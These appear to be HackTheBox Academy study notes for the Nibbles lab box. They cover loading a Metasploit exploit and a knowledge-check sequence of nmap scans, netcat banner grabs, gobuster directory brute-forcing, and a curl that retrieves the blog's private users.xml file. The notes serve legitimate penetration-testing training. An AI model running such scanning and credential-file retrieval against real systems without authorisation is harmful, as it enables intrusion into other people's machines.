


Type use 0 to load the selected exploit. Set the rhosts option as the target IP address and lhosts as the IP address of your tun0 adapter (the one that comes with the VPN connection to HackTheBox).

---

# Section 23 - Knowledge Check

- Attacker: `10.10.14.234`
- Target: `10.129.220.236`

Go to `http://10.129.220.236`.

```bash
nmap -sV --open -oA nibbles_initial_scan 10.129.220.236
nc -nv 10.129.220.236 22
nc -nv 10.129.220.236 80

```

```bash
whatweb 10.129.220.236
curl http://10.129.220.236

gobuster dir -u http://10.129.220.236/nibbleblog/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt
curl http://10.129.220.236/nibbleblog/README
curl -s http://10.129.220.236/nibbleblog/content/private/users.xml | xmllint  --format -
```

---

# References

- <https://academy.hackthebox.com/>
